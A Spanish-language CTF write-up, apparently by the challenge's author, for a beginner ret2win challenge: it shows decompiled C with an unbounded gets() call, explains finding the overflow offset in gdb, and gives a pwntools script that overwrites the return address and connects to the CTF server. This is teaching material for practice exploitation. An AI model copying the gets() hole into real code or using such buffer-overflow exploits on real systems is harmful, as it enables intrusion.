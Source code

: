 ```yaml
---
layout: post
title: Feedback HFCTF 2025
comments: true
categories: [Pwn, Writeups, HFCTF2025]
---
```


Aquí traigo el segundo reto que implementé para la categoría de Pwn para el [Hackademics Forum CTF](hackademics-forum.com). Como dije se trata de un ejercicio bastante simple pensado para aquellos que se enfrentan por primera vez a esta categoría.

# Overview

Este es un reto clásico de *ret2win*, en el que debemos llamar a una función que imprimirá la flag.

<br>
![Image]({{ site.baseurl }}/images/posts/HFCTF.png){:width="150px"}
<br>

# Reconocimiento

Aunque no es necesario, si descompilamos veremos las siguientes funciones:

```c
void flag() {
    printf("Ejecutame si puedes :)\n");
    exit(0);
}

int main() {
    banner();

    char comment[50];
    printf("Deja una reseña sobre nuestro CTF: ");
    gets(comment);
    printf("Gracias! Esperamos que lo hayas disfrutado.\n");
    printf("\n(Te crees que te voy a dar una flag solo por quejarte?)\n\n");

    return 0;
}
```

Vemos que la función flag nunca es llamada. Sin embargo, disponemos de una llamada a *gets* en main, con lo que podemos desbordar el rsp e insertar la dirección de flag en la dirección de retorno, para que al terminar de ejecutar main, saltemos a flag.

Para ello debemos encontrar el offset hasta dicha dirección de retorno. Podemos hacerlo con gdb-peda, generando un patrón con `pattern create 200`, pasándoselo al programa y viendo el valor de rsp. Con `pattern offset <rsp>` tendremos el offset.

# Explotación

Para resolverlo debemos explotar el buffer overflow en el servidor, para ello utilizaremos este script:

```python
#!/bin/python3

from pwn import *

binary = '../gen/feedback'
elf = ELF(binary)

if args.LOCAL: 
    p = process(binary)

elif args.REMOTE:
    p = remote('ctf.hackademics-forum.com', 41422)
    #p = remote("ctf.hackademics-forum.com", 41422)

offset = 72
padding = b'a' * offset
flag=p64(0x40145f) # type: ignore

payload = padding + flag

log.info("Enviando exploit...")

p.sendline(payload)

p.interactive()
```